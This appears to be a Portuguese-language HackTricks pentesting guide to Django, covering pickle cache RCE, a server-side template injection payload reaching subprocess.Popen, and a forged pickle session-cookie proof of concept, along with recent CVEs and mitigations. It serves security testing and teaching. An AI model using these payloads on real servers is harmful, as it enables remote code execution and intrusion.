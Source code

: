 # Django

{{#include ../../banners/hacktricks-training.md}}

## Manipulação de Cache para RCE
O método de armazenamento de cache padrão do Django é [Python pickles](https://docs.python.org/3/library/pickle.html), que pode levar a RCE se [entrada não confiável for descompactada](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Se um atacante conseguir obter acesso de gravação ao cache, ele pode escalar essa vulnerabilidade para RCE no servidor subjacente**.

O cache do Django é armazenado em um dos quatro lugares: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [memória](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [arquivos](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), ou um [banco de dados](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). O cache armazenado em um servidor Redis ou banco de dados são os vetores de ataque mais prováveis (injeção Redis e injeção SQL), mas um atacante também pode ser capaz de usar cache baseado em arquivo para transformar uma gravação arbitrária em RCE. Os mantenedores marcaram isso como um não problema. É importante notar que a pasta de arquivos de cache, o nome da tabela SQL e os detalhes do servidor Redis variarão com base na implementação.

Este relatório do HackerOne fornece um ótimo exemplo reproduzível de exploração do cache do Django armazenado em um banco de dados SQLite: https://hackerone.com/reports/1415436

---

## Injeção de Template do Lado do Servidor (SSTI)
A Linguagem de Template do Django (DTL) é **Turing-completa**. Se dados fornecidos pelo usuário forem renderizados como uma *string de template* (por exemplo, chamando `Template(user_input).render()` ou quando `|safe`/`format_html()` remove a auto-escapagem), um atacante pode alcançar SSTI total → RCE.

### Detecção
1. Procure por chamadas dinâmicas para `Template()` / `Engine.from_string()` / `render_to_string()` que incluam *qualquer* dado de solicitação não sanitizado.
2. Envie uma carga útil baseada em tempo ou aritmética:
```django
{{7*7}}
```
Se a saída renderizada contiver `49`, a entrada é compilada pelo mecanismo de template.

### Primitiva para RCE
O Django bloqueia o acesso direto a `__import__`, mas o gráfico de objetos Python é acessível:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Encontre o índice de `subprocess.Popen` (≈400–500 dependendo da versão do Python) e execute comandos arbitrários:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Um dispositivo universal mais seguro é iterar até `cls.__name__ == 'Popen'`.

O mesmo dispositivo funciona para recursos de renderização de **Debug Toolbar** ou **Django-CMS** que manipulam mal a entrada do usuário.

---

## RCE de Cookie de Sessão Baseado em Pickle
Se a configuração `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` estiver habilitada (ou um serializador personalizado que desserializa pickle), o Django *descriptografa e desempacota* o cookie de sessão **antes** de chamar qualquer código de visualização. Portanto, possuir uma chave de assinatura válida (a `SECRET_KEY` do projeto por padrão) é suficiente para execução remota imediata de código.

### Requisitos para Exploração
* O servidor usa `PickleSerializer`.
* O atacante conhece / pode adivinhar `settings.SECRET_KEY` (vazamentos via GitHub, `.env`, páginas de erro, etc.).

### Prova de Conceito
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Envie o cookie resultante, e o payload é executado com as permissões do trabalhador WSGI.

**Mitigações**: Mantenha o `JSONSerializer` padrão, gire o `SECRET_KEY` e configure `SESSION_COOKIE_HTTPONLY`.

---

## Recentes (2023-2025) CVEs de Alto Impacto do Django que os Pentesters Devem Verificar
* **CVE-2025-48432** – *Injeção de Log via `request.path` não escapado* (corrigido em 4 de junho de 2025). Permite que atacantes insiram quebras de linha/códigos ANSI em arquivos de log e envenenem a análise de log a jusante. Nível de patch ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Injeção SQL crítica* em `QuerySet.values()/values_list()` no `JSONField` (CVSS 9.8). Crie chaves JSON para sair da citação e executar SQL arbitrário. Corrigido em 4.2.15 / 5.0.8.

Sempre identifique a versão exata do framework via a página de erro `X-Frame-Options` ou o hash de `/static/admin/css/base.css` e teste o acima onde aplicável.

---

## Referências
* Lançamento de segurança do Django – "Django 5.2.2, 5.1.10, 4.2.22 abordam CVE-2025-48432" – 4 de junho de 2025.
* OP-Innovate: "Django lança atualizações de segurança para abordar falha de injeção SQL CVE-2024-42005" – 11 de agosto de 2024.

{{#include ../../banners/hacktricks-training.md}}
